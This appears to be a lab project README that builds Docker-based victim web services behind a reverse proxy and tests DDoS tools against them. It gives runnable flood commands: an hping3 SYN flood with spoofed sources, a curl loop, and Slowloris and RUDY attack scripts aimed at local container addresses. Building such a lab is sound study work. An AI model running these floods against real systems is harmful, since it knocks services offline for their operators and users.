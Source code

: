 # Exploring DDoS attacks

## Reverse-proxy (reverse-proxy)

In order to create a more realistic environment, we create two subnetworks, one for the victim (victim-network) and one for the botnet (chn-network). To redirect network from one network to the other, we configure another container that plays the role of a reverse-proxy (passthrough) that gets the traffic to the victim service.

Create network `docker network create victim-network` before docker compose on the reverse-proxy.

## Types of Services

### Nginx with Limited Resources Serving a Static Webpage (static)
- Simple nginx configuration with reduced buffer sizes and a limited number of worker processes to simulate a constrained server environment.

### Flask App with Gunicorn (dynamic)
- Basic Flask app for serving dynamic content, deployed with Gunicorn and configured to use a restricted number of workers (e.g., 1 to 4).

### Baseline Flask App (baseline)
- Basic Flask app serving dynamic content without Gunicorn or reverse proxy integration, representing an unoptimized setup.

## Tools to Perform a DDoS/Stress Test

These are some general tools to perform DDoS, it was an initial exploration, even though we cannot use that in the case of our Cowrie
botnet.

## Simple curl script
**Description:** Just a dummy script to imitate a DDoS.
```sh
for i in {1..100}; do
    (
        while true; do
            curl -s http://0.0.0.0:5000/ > /dev/null
        done
    ) &
done
```

### hping3
**Description:** A command-line oriented TCP/IP packet assembler and analyzer, useful for simulating various types of attacks by crafting and flooding packets.

**Example:**
Install using your package manager:
```sh
sudo apt install hping3
```

Command to simulate a SYN flood:
```sh
sudo hping3 -S -d 10000 172.19.0.2 -k --rand-source --flood -p 5000
```
- `-S`: Sends SYN packets.
- `-d 10000`: Packet size (10,000 bytes).
- `172.19.0.2`: Target IP address.
- `-k`: Keeps the connection alive.
- `--rand-source`: Randomizes the source IP address (simulates a distributed attack).
- `--flood`: Sends packets as quickly as possible.
- `-p 5000`: Target port.

### wrk
**Description:** A modern HTTP benchmarking tool capable of generating high loads. Useful for testing endpoint response times under stress.

**Example:**
Install using your package manager:
```sh
sudo apt install wrk
```

Command to simulate traffic:
```sh
wrk -t40 -c500 -d300s http://localhost:5000
```
- `-t40`: Number of threads.
- `-c500`: Number of concurrent connections.
- `-d300s`: Duration of the test (300 seconds).
- `http://localhost:5000`: Target endpoint.

### Apache Benchmark (ab)
**Description:** A simple tool for benchmarking HTTP requests, particularly useful for testing server concurrency and handling capacity.

**Example:**
Install using your package manager:
```sh
sudo apt install apache2-utils
```

Command for benchmarking:
```sh
ab -l -n 1000000 -c 1000 -k http://0.0.0.0:5000/
```
- `-l`: Do not exit on socket errors.
- `-n 1000000`: Total number of requests to perform.
- `-c 1000`: Number of concurrent requests.
- `-k`: Enable HTTP Keep-Alive.
- `http://0.0.0.0:5000/`: Target URL.

### Slowloris
**Description:** A tool for performing layer 7 (application layer) attacks by opening many simultaneous connections and keeping them alive, effectively exhausting the target server’s resources.

**Usage:**
Install using Python pip:
```sh
pip install slowloris
# or
git clone https://github.com/gkbrk/slowloris
```

Command for launching the attack:
```sh
slowloris 172.19.0.2 -p 5000 -s 500
# or
python3 slowloris.py localhost -p 5002 -s 100 -v
```
- `172.19.0.2`: Target IP address.
- `-p 5000`: Target port.
- `-s 500`: Number of simultaneous connections.
- `-v`: Verbose output to see the logs.

### RUDY

This attacks are performed by opening fewr connections for a longer period and keeping them open as long as possible (depending on the resources of the attacker's machine). It opens concurrent POST HTTP connections and send payloads of varying sizes. It can be customised to send specific files as payloads, but by default is send a random payload of 1MB size.

**Usage:**
```sh
git clone https://github.com/darkweak/rudy
cd rudy
go run rudy.go [command]
```

I experiment a bit with different values for the options of the attack command, which slowed down the dynamic server. Instead of depending on one standalone command, I run a script that does 50 times the attack with sleeping 5 sec between each. 

```sh
#!/bin/bash
# Loop to run the attack 50 times with a 5-second pause between each
for i in {1..50}
do
   go run rudy.go run -u http://localhost:8081 -c 1000 -i 100s -p 1GB
   sleep 5
done
```

This port was used for me for our static victim which died. 

I got these logs from the container 
![rudy_ddos](rudy_ddos.png)

which proves that the nginx cannot handle the concurrent requests. 

Improtant is that I could not run the commands for loads of concurrent requests with a large payload (e.g, 5GB) withouth my host running out of memory.

## NGINX Config 

Configuring proxy to forward to the two victims 
also added aliasing for the names dynamic-victim and static-victim on the docker-compose.yaml on both static and dynamic. Also added some logs to see what is going on when the attack is made. 

```sh
events {
    worker_connections 1024; 
}

http {
    server {
        listen 80;

        # Forward to the dynamic victim
        location /dynamic {
            proxy_pass http://dynamic-victim:5000/;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_buffering off;
            # Logs
            access_log /var/log/nginx/dynamic_access.log;
            error_log /var/log/nginx/dynamic_error.log debug;
        }

        # Forward to the static victim
        location /static {
            proxy_pass http://static-victim:80/;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;
            proxy_buffering off;
            # Logs
            access_log /var/log/nginx/static_access.log;
            error_log /var/log/nginx/static_error.log debug;
        }
    }
}
```